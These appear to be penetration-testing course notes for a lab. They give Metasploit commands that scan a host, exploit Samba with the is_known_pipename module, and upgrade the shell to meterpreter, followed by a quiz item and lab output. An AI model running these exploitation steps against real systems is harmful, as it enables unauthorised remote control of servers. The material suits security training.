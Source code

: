 

Setup msfconsole
```
service postgresql start && msfconsole
workspace -a upgrade_shell 
setg RHOST <target_ip>
setg LHOST <local_ip>
```

Scan and enumerate target
```
db_nmap -sV <target_ip>
```

Setup exploit module
```
search type:exploit samba
use linux/samba/is_known_pipename
options
exploit
```


Setup handler to gain meterpreter 
```
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter 
set SESSION <session_id>
exploit
```

Upgrade command shell to meterpreter using the sessions command
```
sessions -u <session_id>
```

## Quiz

Which one of the following Msfconsole commands can be used to upgrade a command shell to a meterpreter shell automatically?

	sessions -u

## Lab

This lab covers the process of upgrading a command shell to a meterpreter session.

```
Local Host: 192.4.150.2
Remote Host: 192.4.150.3
```


```
db_nmap -sV -O 192.4.150.3

[*] Nmap: 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```